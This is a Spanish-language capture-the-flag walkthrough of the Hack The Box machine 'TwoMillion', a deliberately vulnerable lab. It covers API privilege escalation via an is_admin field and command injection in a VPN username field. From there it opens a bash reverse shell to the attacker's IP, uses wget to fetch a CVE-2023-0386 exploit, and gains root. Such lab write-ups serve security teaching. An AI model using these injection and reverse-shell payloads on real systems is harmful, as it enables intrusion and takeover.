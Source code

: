 ```yaml
---
description: >-
  ✍️ Autor: TRX & TheCyberGeek 🔍 Dificultad: Fácil 📅 Fecha de creación:
  7/06/2023
---
```


# TwoMillion

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.221
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.221
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.221
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se asimila a la página oficial de Hack The Box pero no vemos nada interesante por lo que revisamos los directorios.

```bash
gobuster dir -u http://2million.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --exclude-length 162
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el directorio `/invite` se asimila a como se tenía que registrar la gente al principio en la plataforma ya que se necesitaba un código de invitación. Tras inspeccionar la página encontramos la función llamada **makeInviteCode**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La llamamos.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como vemos esta encriptada en **ROT13** por lo que desencriptamos.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos lo que nos comunica la pista.

```bash
curl -s -X POST "http://2million.htb/api/v1/invite/generate"
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Está el código en **base64** por lo que decodificamos.

```bash
echo "SDg2RjUtUUdRMDUtWEdEMTItU1o3QTg=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el código de invitación.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-12 125945.png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales registradas.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos al apartado de **Access**. Miramos los endpoints de la API.

```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos sale **Unauthorized** por lo que tenemos que coger la **cookie session**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

No somos administradores. Tampoco podemos generar una VPN. Vemos que podemos actualizar datos del usuario así que probamos.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json"| jq
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos avisa del email por lo que añadimos.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"email":"bea@gmail.com"}'| jq
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos dice que falta un parámetro por si es administrador.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"email":"bea@gmail.com", "is_admin":1}'| jq
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos administradores lo que significa que la API está mal configurada. Por si acaso revisamos.

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intentamos generar una VPN ya que somos admin.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Matizamos lo que se nos avisa.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json"| jq
```

<figure><img src="../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Ahora nos pide el parámetro username.

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username":"beafn28"}'| jq
```

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

La respuesta ya no está en JSON por lo que lo quitamos.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Genera una VPN por el usuario que le diga. Por lo que hacemos lo siguiente.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username":"prueba; whoami;"}'
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos www-data por lo que tenemos RCE.

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username": "prueba; bash -c \"bash -i >& /dev/tcp/10.10.14.58/443 0>&1\";"}'
```

Nos conectamos.

```bash
nc -lnvp 443
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos un fichero .env interesante mostramos su contenido.

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

Migramos de usuario.

```bash
ssh admin@2million.htb
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña. Tampoco tenemos permisos SUID.&#x20;

Nos dice que tenemos un mail.

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Al ver la información del sistema en el que nos encontramos encontramos este exploit.

{% @github-files/github-code-block url="https://github.com/sxlmnwb/CVE-2023-0386" %}

Nos lo descargamos en nuestra máquina víctima tras comprimirlo en nuestra máquina anfitrión.

```bash
wget http://10.10.14.58/comprimido.zip
```

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

Abrimos otra terminal y nos logueamos a través de **ssh** y también nos situamos en el directorio `/tmp/CVE-2023-0386`.

```
PRIMERA TERMINAL
make all
./fuse ./ovlcap/lower ./gc

SEGUNDA TERMINAL
./exp
```

Tras realizar esto nos convertimos en **root**.

<figure><img src="../../.gitbook/assets/image (1166).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-12 153509.png" alt=""><figcaption></figcaption></figure>
